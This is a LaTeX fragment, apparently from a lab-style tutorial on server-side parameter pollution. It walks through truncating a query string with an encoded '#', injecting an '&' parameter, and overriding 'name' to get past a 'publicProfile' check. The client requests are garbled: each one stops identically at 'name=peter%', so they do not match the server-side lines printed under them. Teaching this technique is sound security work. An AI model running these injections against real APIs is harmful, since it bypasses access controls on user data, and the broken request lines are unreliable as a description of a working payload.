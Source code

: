 \documentclass[11pt]{article}
\begin{document}
\subsubsection{Step 2 --- Truncate the Query String with \texttt{\#}}

Append \texttt{\%23} (URL-encoded \texttt{\#}) to cut off everything after your input on the server side:

\begin{httpbox}
GET /userSearch?name=peter%

# Server sees:
GET /users/search?name=peter#foo&publicProfile=true
# publicProfile=true is now a fragment -> ignored
\end{httpbox}

\begin{itemize}
  \item \textbf{Returns user ``peter''} $\Rightarrow$ truncation worked, \texttt{publicProfile} check bypassed.
  \item \textbf{Returns ``Invalid name''} $\Rightarrow$ \texttt{foo} was treated as part of the name --- not truncated.
\end{itemize}

\subsubsection{Step 3 --- Inject Additional Parameters with \texttt{\&}}

\begin{httpbox}
GET /userSearch?name=peter%

# Server sees:
GET /users/search?name=peter&foo=xyz&publicProfile=true
\end{httpbox}

\begin{itemize}
  \item Unchanged response $\Rightarrow$ extra param injected but ignored.
  \item Error about \texttt{foo} $\Rightarrow$ param was parsed --- find valid names next.
\end{itemize}

\subsubsection{Step 4 --- Override Existing Parameters}

\begin{httpbox}
GET /userSearch?name=peter%

# Server sees:
GET /users/search?name=peter&name=carlos&publicProfile=true
\end{httpbox}
\end{document}
